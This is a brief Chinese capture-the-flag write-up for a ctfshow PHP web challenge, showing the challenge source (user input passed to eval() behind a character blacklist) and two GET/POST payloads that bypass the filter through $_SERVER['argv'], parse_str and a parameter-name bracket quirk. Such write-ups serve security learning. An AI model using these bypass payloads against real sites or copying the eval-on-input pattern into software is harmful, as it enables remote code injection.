

# 知识点
与web125相似
# 思路
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```
```php
方法一 GET ?$fl0g=flag_give_me;
        POST CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
方法二 GET:?a=1+fl0g=flag_give_me
        POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

